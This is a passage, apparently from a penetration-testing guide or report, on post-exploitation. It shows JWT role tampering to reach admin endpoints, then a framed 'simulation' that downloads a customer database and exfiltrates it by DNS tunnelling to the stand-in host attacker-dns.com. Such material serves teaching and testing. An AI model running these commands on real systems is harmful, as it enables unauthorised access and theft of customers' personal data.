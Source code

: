 ### Phase 4: Post-Exploitation

**Privilege Escalation Example:**

**Regular User → Admin Escalation:**
```javascript
// Exploit: Modify JWT token to gain admin privileges

// Original JWT payload (decoded)
{
  "sub": "user123",
  "role": "user",
  "iat": 1633024800
}

// Modified payload (attacker changes role)
{
  "sub": "user123",
  "role": "admin",  // Changed from "user"
  "iat": 1633024800
}

// If JWT signature not validated properly, this works!
curl -H "Authorization: Bearer [MODIFIED_TOKEN]" \
  https://api.target.com/admin/users
```

**Result:**
```
✅ Privilege escalation successful!
Regular user now has admin access to:
- All user management endpoints
- System configuration
- Sensitive reports
- Database backups
```

**Data Exfiltration Simulation:**
```bash
# Download entire customer database
curl -H "Authorization: Bearer [ADMIN_TOKEN]" \
  https://api.target.com/export/customers \
  -o customers_database.csv

# Size: 500MB (250,000 records)
# Includes: Names, emails, addresses, purchase history

# Exfiltrate via DNS tunneling (bypass firewall)
cat customers_database.csv | base64 | \
  while read line; do
    nslookup $line.attacker-dns.com
  done
```
